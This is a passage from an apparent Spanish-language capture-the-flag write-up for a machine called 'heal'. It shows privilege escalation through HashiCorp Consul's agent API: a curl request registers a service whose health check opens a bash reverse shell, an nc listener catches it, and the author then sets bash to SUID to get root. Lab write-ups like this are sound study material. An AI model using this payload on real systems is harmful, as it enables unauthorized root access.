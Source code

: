 podemos inyectar servicios

ahora, modificando el payload de exploitdb tenemos:
```bash
curl -X PUT -d '{
  "ID": "pwn",
  "Name": "pwn",
  "Address": "127.0.0.1",
  "Port": 9999,
  "check": {
    "Args": ["/bin/bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4443 0>&1"],
    "interval": "10s"
  }
}' http://127.0.0.1:8500/v1/agent/service/register
```

dado que tenemos nc en esta misma maquina, nos podemos en escucha:
```bash
nc -lnvp 4443
```

y nos da la shell como pero se va:

<img src='/images/writeup-heal/Pasted image 20250511184403.png'>

así que como la conexión dura 1 min, simplemente cambie la bash a suid:

<img src='/images/writeup-heal/Pasted image 20250511184845.png'>

y ya pude convertirme en root con una shell mas estable:

<img src='/images/writeup-heal/Pasted image 20250511184943.png'>
